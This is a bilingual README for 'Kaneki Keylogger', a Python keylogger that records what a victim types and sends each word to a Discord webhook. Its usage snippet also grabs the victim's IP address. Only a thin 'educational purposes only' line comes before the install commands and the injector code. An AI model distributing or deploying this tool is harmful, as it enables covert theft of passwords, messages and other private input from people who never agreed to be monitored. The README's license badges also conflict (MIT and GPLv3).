 <p align='center'>
  <b>Follow me here:</b><br>
  <a href="https://discord.gg/kjdsvNqJff">Discord</a> |
  <a href="https://www.youtube.com/channel/UCdIuioH8MzwMD88XGkliupA">YouTube</a> |
  <a href="https://github.com/KanekiX2">Github</a>
</p>

--- 

**FR:** A but educatif seulement.  
**EN:** For educational purposes only.  

![](https://home.sophos.com/en-us/medialibrary/Microsites/Home/SecurityCenter/what-is-a-keylogger.jpg)
# Keylogger  
**FR** : Kaneki Keylogger est un simple key logger écrit en python qui envoie les mots à chaque touche espace où entrer presser, Proposer à but éducatif.  
**EN** : Kaneki Keylogger is a simple keylogger written in python that sends the words to each key space to enter press, Suggest for educational purpose.  


## 💻 Features
- Send the words type to a discord webhook
- Send the words at each space to avoid a ratelimit

## 🛠 Insallation & Usage
### Installation
```bash
git clone https://github.com/KanekiX2/KeyLogger
cd KeyLogger
pip install -r requirements.txt
```
### Usage
```py
from Keylogger import Inject

Injector = Inject(hook="YOUR WEBHOOK LINK")
Injector.get_ip()
Injector.run()
Injector.listener_s()
```


## 📷 Demo
![](https://cdn.discordapp.com/attachments/809886609717329920/835762012650209300/unknown.png)

##  📝 Contact
Mail : _kaneki_pro@protonmail.com_ <br>
Discord : `Kaneki#8888`


## 📚 Contributions
All suggestions are welcome.

### 📜 License
Keylogger is under licensed MIT [MIT License](https://github.com/KanekiX2/KeyLogger/blob/master/LICENSE).

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)
[![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[![Open Source Love svg1](https://badges.frapsoft.com/os/v1/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/)
